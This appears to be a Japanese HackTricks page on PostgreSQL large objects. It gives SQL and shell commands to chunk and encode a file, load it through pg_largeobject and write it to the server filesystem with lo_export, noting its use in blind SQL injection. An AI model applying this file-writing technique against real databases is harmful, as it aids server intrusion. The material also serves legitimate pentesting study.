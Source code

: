 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL 大きなオブジェクト

PostgreSQLは、**大きなオブジェクト**として知られる構造を提供しており、`pg_largeobject`テーブルを介してアクセス可能で、画像やPDF文書などの大きなデータ型を保存するために設計されています。このアプローチは、**データをファイルシステムに戻すことができる**ため、`COPY TO`関数よりも有利であり、元のファイルの正確な複製が維持されます。

このテーブル内に**完全なファイルを保存するためには**、`pg_largeobject`テーブルにオブジェクトを作成する必要があり（LOIDで識別されます）、その後、各2KBのサイズのデータチャンクをこのオブジェクトに挿入します。これらのチャンクは、エクスポート機能が正しく動作するために、正確に2KBのサイズであることが重要です（最後のチャンクは例外となる可能性があります）。

**バイナリデータを2KBのチャンクに分割するためには**、以下のコマンドを実行できます：
```bash
split -b 2048 your_file # Creates 2KB sized files
```
各ファイルをBase64またはHexにエンコードするには、以下のコマンドを使用できます：
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**重要**: このプロセスを自動化する際は、2KBのクリアテキストバイトのチャンクを送信することを確認してください。16進数エンコードされたファイルはサイズが倍になるため、チャンクごとに4KBのデータが必要です。一方、Base64エンコードされたファイルは、`ceil(n / 3) * 4`の式に従います。

大きなオブジェクトの内容は、デバッグ目的で次のコマンドを使用して表示できます:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

バイナリデータを保存するために、最初にLOIDが作成されます:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
精密な制御が必要な状況、例えばBlind SQL Injectionを悪用する場合、`lo_create`は固定LOIDを指定するために好まれます。

データチャンクは次のように挿入できます:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
大きなオブジェクトを使用後にエクスポートし、潜在的に削除するには：
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Using `lo_import` & Hex

`lo_import` 関数は、大きなオブジェクトのために LOID を作成し、指定するために利用できます：
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
オブジェクト作成後、データはページごとに挿入され、各チャンクが2KBを超えないようにします：
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
プロセスを完了するために、データがエクスポートされ、大きなオブジェクトが削除されます：
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### 制限事項

**大きなオブジェクトにはACL（アクセス制御リスト）がある可能性があり**、ユーザーが作成したオブジェクトへのアクセスが制限されることがあります。ただし、許可されたACLを持つ古いオブジェクトは、コンテンツの抽出に対して引き続きアクセス可能である場合があります。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
